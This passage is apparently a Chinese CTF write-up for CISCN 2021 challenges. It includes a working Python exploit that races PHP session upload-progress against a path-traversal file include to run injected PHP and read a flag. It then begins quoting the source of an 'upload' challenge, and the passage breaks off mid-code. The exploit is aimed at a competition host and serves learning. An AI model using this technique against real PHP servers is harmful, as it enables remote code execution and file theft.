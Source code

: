 ```python
import threading

sessID = 'bmth'
url = 'http://123.60.215.79:21776'

data = {
    "cf":"../../../../../../var/lib/php/sessions/jbgjccdcbb/sess_{}".format(sessID)
}

def write(session):
    while True:
        f = io.BytesIO(b'a'*256*1)
        response = session.post(
            url,
            cookies={'PHPSESSID': sessID},
            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php var_dump(scandir("/etc/"));echo("bmth");?>'},
            files={'file': ('bmth.txt', f)}
            )
def read():
    while True:
        response = session.post(url,data)
        if 'bmth' in response.text:
            print(response.text)
            break

session = requests.session()
write = threading.Thread(target=write, args=(session,))
write.daemon = True 
write.start()
read()
```
![](https://img-blog.csdnimg.cn/20210517225702646.png)
发现奇怪的名称cadahdeiff，那么读取目录，最后readfile读取flag即可
```php
readfile("/etc/cadahdeiff/aidacbeeef/hhbecfhbgf/fedajbafee/dbieffcbee/fl444444g");
```
![](https://img-blog.csdnimg.cn/20210517225727522.png)

## upload复现
[https://buuoj.cn/challenges#[CISCN2021%20Quals]upload](https://buuoj.cn/challenges#[CISCN2021%20Quals]upload)
比赛时候没做出来，比赛完来学习一下
```php
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
```